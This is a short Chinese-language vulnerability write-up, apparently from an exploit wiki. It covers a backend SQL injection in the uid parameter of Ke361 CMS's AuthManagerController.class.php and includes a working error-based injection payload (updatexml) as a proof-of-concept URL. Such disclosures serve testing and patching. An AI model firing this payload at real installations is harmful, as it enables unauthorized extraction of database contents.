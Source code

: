 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232823896.png)

存在漏洞的文件为 **Application/Admin/Controller/AuthManagerController.class.php**

![img](../../../.vuepress/public/img/1634142335709-0384ef5c-e05b-41af-b19d-a5b7864faaf3.png)

验证POC

```php
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](../../../.vuepress/public/img/1634142341220-a0120691-16d8-41e2-be07-abcaa561347f.png)